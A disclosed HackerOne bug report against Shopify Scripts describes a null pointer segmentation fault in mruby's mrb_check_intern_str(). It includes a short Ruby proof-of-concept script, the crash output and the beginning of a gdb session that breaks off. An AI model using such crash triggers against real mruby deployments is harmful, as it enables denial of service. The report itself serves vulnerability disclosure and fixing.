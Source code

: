 # SIGSEGV - mrb_check_intern_str() - NullPointer

## Report Details
- **Report ID**: 193075
- **URL**: https://hackerone.com/reports/193075
- **State**: Closed
- **Severity**: low
- **Submitted**: 2016-12-21T14:23:30.522Z
- **Disclosed**: 2017-03-01T21:34:23.821Z

## Reporter
- **Username**: ston3
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify-scripts

## Vulnerability Information
PoC
---------------------

The following code triggers the bug (attached as mrb_vm_exec.rb):

	def to_str
	$s.replace("")end
	$s=""
	class Test00espondTo end
	Test00espondTo.respond_to?(0)

Crash - mirb
---------------------

	x@x:~/Desktop/research/mruby/bin$ ./mirb mrb_check_intern_str.rb 
	mirb - Embeddable Interactive Ruby Shell

	 => :to_str
	 => ""
	 => nil
	Segmentation fault (core dumped)


Debug - mirb
---------------------

	x@x:~/Desktop/research/mruby/bin$ gdb -q ./mirb
	Reading symbols from ./mirb...done.
	(gdb) r mrb_check_intern_str.rb 
	Starting program: /home/x/Desktop/research/mruby/bin/mirb mrb_check_intern_str.rb
	mirb - Embeddable Interactive Ruby Shell
